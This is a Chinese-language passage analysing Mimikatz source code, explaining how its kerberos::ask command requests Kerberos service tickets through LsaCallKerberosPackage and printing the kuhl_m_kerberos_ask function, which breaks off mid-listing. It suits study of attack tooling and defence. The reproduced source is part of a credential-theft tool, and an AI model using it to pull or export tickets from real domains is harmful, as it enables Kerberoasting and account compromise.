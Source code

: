 其中，KERB\_EXTERNAL\_TICKET 结构中的 EncodedTicket 成员包含票据的二进制数据，该数据可以保存到文件中，也可以通过 Base64 编码后打印出来。

Main Detail
===========

Kerberos::ask
-------------

Mimikatz 的 `kerberos::ask` 通过 LsaCallAuthenticationPackage 函数发送 KERB\_RETRIEVE\_TKT\_REQUEST 消息，为当前用户会话请求新的 Kerberos 服务票据。响应的新票据将保存到 PKERB\_RETRIEVE\_TKT\_RESPONSE 结构中。

根据 `ask` 功能的名称找到其入口函数 kuhl\_m\_kerberos\_ask：

- kerberos\\kuhl\_m\_kerberos.c

```cpp
NTSTATUS kuhl_m_kerberos_ask(int argc, wchar_t* argv[])
{
    NTSTATUS status, packageStatus;
    PWCHAR filename = NULL, ticketname = NULL;
    PCWCHAR szTarget;
    PKERB_RETRIEVE_TKT_REQUEST pKerbRetrieveRequest;
    PKERB_RETRIEVE_TKT_RESPONSE pKerbRetrieveResponse;
    KIWI_KERBEROS_TICKET ticket = { 0 };
    DWORD szData;
    USHORT dwTarget;
    BOOL isExport = kull_m_string_args_byName(argc, argv, L"export", NULL, NULL), isTkt = kull_m_string_args_byName(argc, argv, L"tkt", NULL, NULL), isNoCache = kull_m_string_args_byName(argc, argv, L"nocache", NULL, NULL);

    if (kull_m_string_args_byName(argc, argv, L"target", &szTarget, NULL))
    {
        dwTarget = (USHORT)((wcslen(szTarget) + 1) * sizeof(wchar_t));

        szData = sizeof(KERB_RETRIEVE_TKT_REQUEST) + dwTarget;
        if (pKerbRetrieveRequest = (PKERB_RETRIEVE_TKT_REQUEST)LocalAlloc(LPTR, szData))
        {
            pKerbRetrieveRequest->MessageType = KerbRetrieveEncodedTicketMessage;
            pKerbRetrieveRequest->CacheOptions = isNoCache ? KERB_RETRIEVE_TICKET_DONT_USE_CACHE : KERB_RETRIEVE_TICKET_DEFAULT;
            pKerbRetrieveRequest->EncryptionType = kull_m_string_args_byName(argc, argv, L"rc4", NULL, NULL) ? KERB_ETYPE_RC4_HMAC_NT : kull_m_string_args_byName(argc, argv, L"des", NULL, NULL) ? KERB_ETYPE_DES3_CBC_MD5 : kull_m_string_args_byName(argc, argv, L"aes256", NULL, NULL) ? KERB_ETYPE_AES256_CTS_HMAC_SHA1_96 : kull_m_string_args_byName(argc, argv, L"aes128", NULL, NULL) ? KERB_ETYPE_AES128_CTS_HMAC_SHA1_96 : KERB_ETYPE_DEFAULT;
            pKerbRetrieveRequest->TargetName.Length = dwTarget - sizeof(wchar_t);
            pKerbRetrieveRequest->TargetName.MaximumLength = dwTarget;
            pKerbRetrieveRequest->TargetName.Buffer = (PWSTR)((PBYTE)pKerbRetrieveRequest + sizeof(KERB_RETRIEVE_TKT_REQUEST));
            RtlCopyMemory(pKerbRetrieveRequest->TargetName.Buffer, szTarget, pKerbRetrieveRequest->TargetName.MaximumLength);
            kprintf(L"Asking for: %wZ\n", &pKerbRetrieveRequest->TargetName);

            status = LsaCallKerberosPackage(pKerbRetrieveRequest, szData, (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
            if (NT_SUCCESS(status))
            {
                if (NT_SUCCESS(packageStatus))
                {
                    ticket.ServiceName = pKerbRetrieveResponse->Ticket.ServiceName;
                    ticket.DomainName = pKerbRetrieveResponse->Ticket.DomainName;
                    ticket.TargetName = pKerbRetrieveResponse->Ticket.TargetName;
                    ticket.TargetDomainName = pKerbRetrieveResponse->Ticket.TargetDomainName;
                    ticket.ClientName = pKerbRetrieveResponse->Ticket.ClientName;
                    ticket.AltTargetDomainName = pKerbRetrieveResponse->Ticket.AltTargetDomainName;

```